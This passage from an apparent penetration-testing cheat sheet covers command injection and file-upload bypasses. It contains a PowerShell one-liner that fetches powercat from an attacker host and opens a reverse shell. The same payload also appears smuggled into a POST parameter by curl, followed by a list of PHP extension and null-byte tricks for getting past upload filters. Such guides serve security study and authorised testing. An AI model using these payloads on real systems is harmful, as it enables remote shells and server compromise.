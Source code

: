     IEX (New-Object System.Net.Webclient).DownloadString("http://<ATTACKER_IP>/powercat.ps1");powercat -c <ATTACKER_IP> -p <PORT> -e powershell
    

- **Executing Command Injection:**

    curl -X POST --data &#39;Archive=git%3BIEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2F<ATTACKER_IP>%2Fpowercat.ps1%22)%3Bpowercat%20-c%20<ATTACKER_IP>%20-p%20<PORT>%20-e%20powershell&#39; http://<TARGET>:<PORT>/archive
    

### 3.4 File Upload

This vulnerability occurs in web applications where users can upload files without security checks to
                prevent potential dangers. This allows an attacker to upload files with code (such
                as `.php` or `.aspx` scripts) and execute them on the server.

#### 3.4.1 Disabling Frontend Validation

**Options**:

1. 
Use the *Browser Inspector* to find the function that validates the file, delete it and then
                    upload the file, keep in mind that this will not work if the validation is at server-level.

2. 
Use *BurpSuite* and send a normal request, intercept it and then modify it to our malicious
                    form and then send it.

#### 3.4.2 Extensions Blacklist

Keep in mind that for Windows Servers file extensions are **case sensitive**, a wordlist
                we can use for fuzzing extension with either `ffuf` or `BurpSuite` (do not do URL
                encode) is [https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt).
              

    .jpeg.php
    .jpg.php
    .png.php
    .php
    .php3
    .php4
    .php5
    .php7
    .php8
    .pht
    .phar
    .phpt
    .pgif
    .phtml
    .phtm
    .php%00.gif
    .php\x00.gif
    .php%00.png
    .php\x00.png
    .php%00.jpg
    .php\x00.jpg
    

